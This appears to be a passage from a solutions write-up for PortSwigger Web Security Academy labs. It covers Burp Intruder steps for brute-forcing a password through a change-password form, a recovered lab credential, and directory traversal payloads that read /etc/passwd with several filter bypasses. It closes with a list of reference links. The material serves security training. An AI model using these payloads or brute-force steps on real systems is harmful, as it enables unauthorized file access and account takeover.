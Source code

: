     <br>

    - Send the **/my-account/change-password POST** request to the **Intruder**.
    - Set the **Sniper** attack.
    - Add a mark to the current password payload.
    - Set the payloads (1: passwords).
    - Set the username payload (**carlos**) and the new-password-1 and new-password-2 payloads different.
    - Click the **Options** menu and add a **Grep - Match** rule for the **c)** error message then execute the attack.

    <br>

    ```plaintext
    carlos:michelle
    ```

[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie

---

## **[Directory Traversal][directory_traversal]**

1. #### **File path traversal, simple case**

    ```plaintext
    https://<lab_url>/product   GET   (productId=1)
    https://<lab_url>/image     GET   (filename=10.jpg)

    filename=../../../etc/passwd
    ```

2. #### **File path traversal, traversal sequences blocked with absolute path bypass**

    ```plaintext
    https://<lab_url>/product   GET   (productId=2)
    https://<lab_url>/image     GET   (filename=20.jpg)

    filename=/etc/passwd
    ```

3. #### **File path traversal, traversal sequences stripped non-recursively**

    ```plaintext
    https://<lab_url>/product   GET   (productId=3)
    https://<lab_url>/image     GET   (filename=30.jpg)

    v1: filename=....//....//....//etc/passwd
    v2: filename=..././..././..././etc/passwd
    ```

4. #### **File path traversal, traversal sequences stripped with superfluous URL-decode**

    ```plaintext
    https://<lab_url>/product   GET   (productId=4)
    https://<lab_url>/image     GET   (filename=40.jpg)

    filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd                       (NO, URL encode)
    filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd                     (NO, semi-complete URL encode)
    filename=%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64   (NO, complete URL encode)


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind